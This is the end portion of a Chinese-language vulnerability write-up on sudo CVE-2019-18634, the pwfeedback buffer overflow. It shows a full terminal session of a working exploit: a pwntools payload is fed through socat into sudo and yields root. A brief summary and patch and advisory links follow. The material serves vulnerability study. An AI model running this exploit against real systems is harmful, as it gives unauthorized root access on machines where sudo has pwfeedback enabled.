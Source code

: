这里我给出自己的利用过程作为参考

```
prb@prbvv:~/sudo-cve-2019-18634$ cat aa.sh 
#!/bin/bash
id &gt; end
prb@prbvv:~/sudo-cve-2019-18634$ python -c "from pwn import *;print 'x00x15'*548+p64(6)+'x00x15'*20+p64(0)*2+p32(0)+'x00'*3+'n'" &gt; poc
prb@prbvv:~/sudo-cve-2019-18634$ socat pty,link=/tmp/pty,waitslave exec:"cat /home/prb/sudo-cve-2019-18634/poc" &amp;
[1] 2380
prb@prbvv:~/sudo-cve-2019-18634$ SUDO_ASKPASS=/home/prb/sudo-cve-2019-18634/aa.sh sudo -S id &lt; /tmp/pty
密码：
对不起，请重试。
sudo: 1 次错误密码尝试
prb@prbvv:~/sudo-cve-2019-18634$ cat end
uid=0(root) gid=1000(prb) 组=1000(prb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
[1]+  已完成               socat pty,link=/tmp/pty,waitslave exec:"cat /home/prb/sudo-cve-2019-18634/poc"
prb@prbvv:~/sudo-cve-2019-18634$ ls
aa.sh  e1xp.py  end  exp.py  exp.sh  mm  poc  sudo  sudo-1.8.25  sudo-1.8.25.tar.gz
```



## 小结

CVE-2019-18634 是一个 bss变量溢出漏洞，只有在开启 `pwfeedback`机制的时候才可能触发，最终利用可以使用root权限执行任意程序，危害较大。



## 引用
- [漏洞补丁](https://github.com/sudo-project/sudo/commit/fa8ffeb17523494f0e8bb49a25e53635f4509078)
- [CVE-2019-18634: buffer overflow in sudo when pwfeedback is enabled](https://seclists.org/oss-sec/2020/q1/48)
- [A CVE Journey: From Crash to Local Privilege Escalation](https://iamalsaher.tech/posts/2020-02-08-cve-2019-18634/)